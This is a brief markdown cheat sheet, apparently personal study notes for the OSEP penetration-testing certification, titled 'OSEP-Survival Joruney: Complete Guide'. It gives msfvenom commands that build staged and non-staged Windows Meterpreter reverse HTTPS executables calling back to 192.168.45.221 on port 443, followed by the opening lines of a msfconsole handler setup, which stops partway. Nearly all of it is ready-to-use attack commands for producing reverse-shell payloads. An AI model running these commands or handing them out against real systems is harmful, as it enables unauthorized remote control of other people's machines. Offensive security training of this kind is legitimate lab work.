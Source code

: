 # OSEP-Survival Joruney: Complete Guide

## Reverse Shell Handler 

### Metasploit Payload Generation
```
#Staged
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfstaged.exe

#NonStaged
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfnonstaged.exe
```

### Metasploit Basic handler
```
sudo msfconsole -q
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.45.221
```

